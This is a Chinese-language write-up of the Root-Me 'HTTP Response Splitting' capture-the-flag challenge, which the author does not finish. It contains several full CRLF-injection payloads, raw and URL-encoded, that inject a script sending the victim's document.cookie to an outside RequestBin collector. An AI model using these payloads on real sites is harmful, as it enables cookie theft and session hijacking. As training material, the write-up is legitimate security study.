



Root-Me [HTTP Response Splitting](https://www.root-me.org/fr/Challenges/Web-Client/HTTP-Response-Splitting)
===

該題進入頁面就是要你選擇語言。  
  

## 解題關鍵
1. HTTP Response Splitting（HRS）
2. JavaScript

## 解題方法
該題查了資料，了解什麼是 HRS，簡單的說就是透過截斷字元，透過 `Requests` 來讓瀏覽器以為已經收到 `Response`，參考文獻如下。  
[HTTP splitting攻擊原理說明](https://www.qa-knowhow.com/?p=842)

條件上是符合的，有 302 轉跳頁面（語系選擇），便在請求後方構造惡意的頁面內容即可。  

  

構造方法是參考上方連結的文獻內容。  

```
en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Thu, 01 Jan 2020 12:00:00 GMT
Content-Length: 124


<h1>Hello World</h1><script>document.location="http://requestbin.fullcontact.com/1juiijh1?".concat(document.cookie)</script>
```

隨後透過 URLencode 編碼。  

```
en%0A%0AContent-Length%3A%200%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0ALast-Modified%3A%20Thu%2C%2001%20Jan%202020%2012%3A00%3A00%20GMT%0AContent-Length%3A%20123%0A%0A%3Ch1%3EHello%20World%3C%2Fh1%3E%3Cscript%3Edocument.location%3D%22http%3A%2F%2Frequestbin.fullcontact.com%2F1juiijh1%22.concat%28document.cookie%29%3C%2Fscript%3E
```

請求連結  

```
http://challenge01.root-me.org:58002/user/param?lang=en%0AContent-Length%3A%200%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0AContent-Length%3A%20103%0A%3Cscript%3Edocument.location%3D%22http%3A%2F%2Frequestbin.fullcontact.com%2F1juiijh1%22.concat%28document.cookie%29%3C%2Fscript%3E
```

結果就爆炸了

  

失敗了好一陣子之後，才知道換行符號除了 `%0A` 還要加上 `%0D`，變成 `%0D%0A`，Payload 如下。  

```
http://challenge01.root-me.org:58002/user/param?lang=
en
%0D%0AContent-Length%3A%200
%0D%0A
%0D%0AHTTP%2F1.1%20200%20OK
%0D%0AContent-Type%3A%20text%2Fhtml
%0D%0ALast-Modified%3A%20Thu%2C%2001%20Jan%202050%2012%3A00%3A00%20GMT%20
%0D%0AContent-Length%3A%20124
%0D%0A
%0D%0A%3Ch1%3EHello%20World%3C%2Fh1%3E%3Cscript%3Edocument.location%3D%22http%3A%2F%2Frequestbin.fullcontact.com%2F1ojpqzx1%3f%22.concat%28document.cookie%29%3C%2Fscript%3E
```

確認頁面有轉跳之後，到 `RequestBin` 查看回傳結果。  

  

首先可以確認資料是有進來的，但如何讓 `admin` 上鉤...，目前已經確認汙染 `/`、`/home` 兩個路徑，但 `admin` 還是屬於 `401 Unauthorized` 狀態，若管理者沒有瀏覽 `/`、`home` 頁面的話，那便偷不到 Cookie...。  


發現問題，如果使用 `Brup Suite` 送 Payload 並不會有任何反應，這部分在 `Chrome`、`Firefox` 上得到驗證。  

原先想說是透過 `Burp Sutie` 進行攔截，轉跳時將 URL 變更為 `/admin` 但顯然，只要使用 `Burp Sutie` Payload 就會失效...，該題使用 `Chrome`、`Firefox`、`Brave`、`IE11`、`Edge` 解題，都沒結果，只好果斷放棄了，不過解題的攻擊手法應該是沒錯的QQ。  

## 授權聲明
[](https://mks.tw/)
[](https://www.gnu.org/licenses/gpl-3.0)